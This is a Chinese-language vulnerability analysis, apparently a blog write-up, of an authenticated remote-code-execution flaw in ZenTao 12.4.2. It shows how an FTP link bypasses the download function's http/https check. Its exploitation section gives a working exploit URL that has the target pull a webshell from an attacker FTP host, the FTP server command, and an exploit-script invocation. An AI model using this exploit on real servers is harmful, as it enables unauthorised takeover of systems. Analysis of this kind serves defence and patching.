 ## 前记

本文将对禅道12.4.2后台getshell漏洞进行分析，距离该版本上线已经过去2个多月，本漏洞会对12.4.2之前的版本产生影响，目前已经在新版本中修复。在复现该漏洞的时候我也读过一些网上对于该漏洞复现的文章，但是通过反复测试我发现网上所述的方法在我的环境上并不能成功复现，不知是否有情况相同的小伙伴，所以我对于漏洞点进行了审计，并成功复现，下面我们一起来分析一下。

 

## 代码分析

首先该漏洞需要后台管理员权限，所以我们首先登陆至后台。通过下图我们可以看到登陆后的界面URL为：
`http://192.168.52.141/zentaopms/www/index.php?m=my&f=index`

![img](./iamge/t012b1edfbb5968327e.png)

我们看到后台界面分别对m以及f参数进行传参，那么不难猜出大概就是调用my类下的index方法，我们看一下该段的代码。

![img](./iamge/t0159e9407d7b4a59e9.png)

在/module/my/lang/zh-cn.php下可以看到存在指向index的方法，这验证了我们上面猜测是正确的，那么我们下面来看一下文件下载漏洞点的代码部分。

![img](./iamge/t01e389578003518177.png)

漏洞是发生在client类下的donwload函数中，我们定位函数至/module/client/control.php中找到该方法，本段代码大致意思就是会接收三个参数version、os、link，然后去调用**downloadZipPackage**方法进行文件下载操作，并对一些下载失败事件进行不同回显，比如downloadFail，saveClientError在上图的方法列表我们可以看到他们调用的方法的具体含义，这里就不再赘述，最后如果没有失败事件时间就会返回成功。在downloadZipPackage并不需要os方法，所以这在我们后期利用时也不需要传入该参数。

![img](https://p1.ssl.qhimg.com/t01bc3554884a1ddd3a.png)

然后继续跟进downloadZipPackage方法中，注意重点来了，漏洞真正的产生原因就在该方法中。

![img](./iamge/t01d664441732fb42e4.png)

我们可以看到这段代码首先对传入的link参数进行了base64解码操作，这里的link参数就是我们shell的远程地址，然后下面会通过一个正则表达式进行判断，link地址是否以 http:// 或者 https:// 开头，如果存在则return返回false并退出方法，否则调用方法**parent::downloadZipPackage**，这里其实忽略了FTP这一文件下载方法，也就是说我们可以通过FTP服务代替进行文件下载操作从而绕过正则的限制。

![img](./iamge/t01be4bcd3b62e34b7c.png)

downloadZipPackage方法就没有什么问题了，就是一段文件下载函数，会通过传入的version值创建并命名在data下创建的文件夹并将下载的文件保存在其中。

 

## 漏洞利用

那么这其实就是很清晰了，通过文章开始介绍的m和f参数的调用，我们可以对client类以及download参数进行调用，并传入download参数必要的version以及link参数就可以完成漏洞的利用了。这里的link地址是base64加密后的ftp连接地址，,比如:

**ftp://192.168.52.1/shell.php**

大家可以直接使用python的pyftpdlib模块开启FTP服务比较方便，命令:

**python -m pyftpdlib -p 21 -d .**默认开启匿名用户，不需要输入用户名密码。

![img](./iamge/t010ff8a21f7d431f36.png)

构建exp如下:

```
http://ip/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC41Mi4xL3NoZWxsLnBocA==
```

可以看到回显弹窗保存成功，然后再到靶机中查看发现下载成功，保存路径至

```
/zentaopms/www/data/client/1/shell.php
```

![img](./iamge/t01e196a8e5fd936c20.png)

连接木马，成功利用！

![img](./iamge/t01f672108d970a681f.png)

 

## 漏洞利用EXP

![img](./iamge/t01af2b24af5c3ddc4c.png)

构建命令:`python "Zentao RCE EXP.py" -H http://192.168.52.141 -U admin -P Admin888 -f 192.168.52.1`

其中-H指定目标主机，-U指定后台用户名，-P指定密码，-f指定VMnet8网卡的IP，这样虚拟机才能正常访问到物理机的FTP服务，当然如果测试环境也在虚拟机中则可以修改源码自动获取IP即可。

